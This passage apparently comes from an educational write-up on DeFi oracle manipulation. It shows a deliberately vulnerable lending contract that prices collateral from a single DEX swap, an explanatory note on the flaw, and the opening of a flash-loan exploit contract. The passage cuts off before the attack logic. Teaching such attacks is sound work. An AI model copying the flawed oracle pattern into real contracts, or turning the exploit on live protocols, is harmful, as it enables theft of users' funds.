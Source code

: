 ```solidity

    /// @notice Liquidate undercollateralized user (using manipulated price)
    /// @dev Attacker can force liquidation by manipulating price in same tx
    function liquidate(address user) external {
        uint256 price = pym.getPymPrice(address(collateral), address(borrowToken));
        uint256 collateralValue = (collateralBalance[user] * price) / 1e18;
        require(collateralValue * LTV_PERCENT / 100 < debt[user], "not liquidatable");
        uint256 seized = collateralBalance[user];
        collateralBalance[user] = 0;
        require(collateral.transfer(msg.sender, seized), "transfer seized");
    }
}
```
>[!NOTE]
Think of this like a lending pool (similar to Compound or Aave), but with one big mistake: it asks PymDEX for the collateral price every time. If the price is artificially pumped for even one block, StarkVault believes collateral is worth way more than it really is. That lets an attacker either borrow too much or liquidate someone unfairly. This is the core vulnerability. The teaching point: never trust a single swap price - use safer oracles.

---

### `AntManExploit.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {PymDEX} from "./PymDEX.sol";
import {StarkVault} from "./StarkVault.sol";
import {MockERC20} from "./MockERC20.sol";

/// @title AntManExploit
/// @notice Demonstrates flash-loan + naive oracle manipulation attacks.
/// @dev Educational/demo code only. Not safe for production.
contract AntManExploit {
    PymDEX public pym;
    StarkVault public vault;
    MockERC20 public tokenA;
    MockERC20 public tokenB;
    address payable public owner;

    constructor(address _pym, address _vault, address _tokenA, address _tokenB, address payable _owner) {
        pym = PymDEX(_pym);
        vault = StarkVault(_vault);
        tokenA = MockERC20(_tokenA);
        tokenB = MockERC20(_tokenB);
        owner = _owner;
    }

    /// @notice Execute flash-loan exploit for a given scenario
    /// @param loanAmount Amount of token to borrow in flash-loan
    /// @param wasp Victim address
    /// @param scenario 0 = liquidation, 1 = over-borrow fail, 2 = over-borrow success
    function execute(uint256 loanAmount, address wasp, uint8 scenario) external {
        if (scenario == 0) _scenarioLiquidation(loanAmount, wasp);
        else if (scenario == 1) _scenarioOverBorrowFail(loanAmount, wasp);
        else if (scenario == 2) _scenarioOverBorrowSuccess(loanAmount, wasp);
        else revert("invalid scenario");
    }

    /// @dev Scenario 0: Successful liquidation using flash-loan
    function _scenarioLiquidation(uint256 loanAmount, address wasp) internal {
```